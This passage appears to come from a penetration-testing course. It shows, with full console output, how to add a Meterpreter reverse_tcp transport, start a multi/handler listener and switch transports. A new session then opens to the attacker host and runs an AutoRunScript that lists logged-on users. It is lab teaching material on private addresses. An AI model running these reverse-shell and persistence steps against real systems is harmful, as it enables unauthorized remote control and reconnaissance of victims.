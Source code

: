 In the example below, we will add the _reverse_tcp_ transport, which is equivalent to choosing the windows/meterpreter/reverse_tcp payload. We will apply the options for the specified transport type, including the local host IP address (-l) and the local port (-p):

```
meterpreter > transport add -t reverse_tcp -l 192.168.118.2 -p 5555
[*] Adding new transport ...
[+] Successfully added reverse_tcp transport.
meterpreter > transport list
Session Expiry  : @ 2021-01-29 12:17:32

    ID  Curr  URL                                                                                                         Comms T/O  Retry Total  Retry Wait
    --  ----  ---                                                                                                         ---------  -----------  ----------
    1   *     https://192.168.118.2:443/z1ZmjIKG4RbLjMqNq4fDJw04bX7nMAC9c8em5NsqBdxap5Q8rCmLeA1-OBJ2RHKEz2knBsYiQCYA01o/  300        3600         10
    2         tcp://192.168.118.2:5555                                                                                    300        3600         10

meterpreter >                                                            
```

Before we can take advantage of the new transport, we must set up a listener to accept the connection. We'll do this by once again selecting the multi/handler module and specifying the same parameters we selected earlier.

With the handler configured, we can return to the meterpreter session and run transport next to change to the newly-created transport mode. This will create a new session and close down the old one.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use multi/handler
[*] Using configured payload windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.118.2
LHOST => 192.168.118.2
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.118.2:5555 

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > transport next
[*] Changing to next transport ...
[+] Successfully changed to the next transport, killing current session.

[*] 192.168.120.11 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(multi/handler) > 
[*] Sending stage (175174 bytes) to 192.168.120.11
[*] Meterpreter session 2 opened (192.168.118.2:5555 -> 192.168.120.11:50843) at 2021-01-22 12:30:15 -0500
[*] Session ID 2 (192.168.118.2:5555 -> 192.168.120.11:50843) processing AutoRunScript 'windows/gather/enum_logged_on_users'
[*] Running against session 2

Current Logged Users
====================

```